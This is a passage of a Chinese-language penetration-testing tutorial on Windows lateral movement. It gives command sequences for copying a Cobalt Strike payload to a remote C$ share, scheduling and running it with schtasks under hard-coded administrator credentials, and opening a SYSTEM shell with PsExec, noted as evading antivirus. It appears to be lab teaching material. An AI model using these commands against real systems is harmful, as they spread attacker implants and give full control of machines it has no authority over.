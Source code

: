 ```javascript
at \\192.168.188.100 1 /delete
```



### schtash命令

2008及以上都没at了，使用schtash代替。

可以直接将cs的exe copy到目标机：

```javascript
copy C:\xxxx\artifact.exe \\192.168.188.100\c$
```

之后使用schtash创建计划任务：

```javascript
schtasks /create /TN cs /s 192.168.188.100 /u "Administrator" /p "Admin123!" /TR C:\artifact.exe /SC once /ST 17:32

/TN 指定任务的名称
/s 指定远程计算机的名称或 IP 地址
/TR 指定任务运行的程序或命令
/SC 指定计划类型。 
/ST 使用24小时时间格式 HH： mm 指定任务的开始时间。


查看帮助
schtasks /create /?

执行计划任务
schtasks /run /tn cs /s 192.168.188.100 /u "Administrator" /p "Admin123!"

查看运行状态
schtasks /query /s 192.168.188.100 /u "Administrator" /p "Admin123!" | findstr "cs"

删除
schtasks /delete /F /tn todayfive /s 192.168.188.100 /u "Administrator" /p "Admin123!"
/f 禁止显示确认消息。 删除任务但不发出警告
```

## 使用PsExec

微软自家的，不会被杀

[tool_download](https://docs.microsoft.com/zh-cn/sysinternals/downloads/psexec)

需要远程系统开启admin共享（默认是开启的），原理是基于IPC共享，目标需要开放445端口和admin

```
PsExec64.exe -accepteula \\192.168.188.100 -u WIN-4JS3YOGGQ2T\administrator -p Admin123! -s cmd.exe

-accepteula：第一次运行psexec会弹出确认框，使用该参数就不会弹出确认框
-s：以system权限运行运程进程，获得一个system权限的交互式shell。如果不使用该参数，会获得一个连接所用用户权限的shell
```
